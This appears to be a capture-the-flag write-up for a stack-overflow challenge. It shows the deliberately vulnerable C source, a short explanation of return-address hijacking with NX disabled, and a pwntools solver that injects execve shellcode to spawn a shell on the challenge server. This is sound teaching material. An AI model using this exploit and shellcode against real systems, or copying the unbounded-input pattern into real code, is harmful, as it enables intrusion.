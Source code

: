 # High Way To Shell
![challenge](../images/High_way_to_shell.png)

## Source Code
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

//gcc main.c -o main -fno-stack-protector -no-pie
int setup(){
    setvbuf(stderr, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	return setvbuf(stdin, NULL, _IONBF, 0);
}

int main(){
    setup();
    char buf[50];
    printf("I'm going to be generous with you : %p",&buf);
    printf("\nDo Your magic:");
    scanf("%s", &buf);
    return 0;
}
```

## Overview
Before diving into the exploitation process let's check the security of the binary.<br>
![checksec](../images/High_way_to_shell_checksec.png)

We can see that ```NX``` is disabled. So we can inject a Shellcode into the stack when prompted for input. Then we hijack the code execution by overwriting the saved return pointer on the stack and modified it to point to our shellcode and once the return pointer got popped into RIP, it pointed at our shellcode. This causes the program to execute our instructions, giving us a shell for arbitrary command execution.

## Solver
```py
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF('./main')
#p = process(elf.path)
p = remote("20.216.40.184", 10008)

p.recvuntil(b"I'm going to be generous with you : ")
leak = int(p.recvline().strip(),16)
log.info(f"Buffer leak ==> {hex(leak)}")

pay = b"\x50\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"
pay += b'a'*(72 - len(pay))
pay += p64(leak)


p.sendafter(b"Do Your magic:",pay)
p.interactive()
p.close()
```
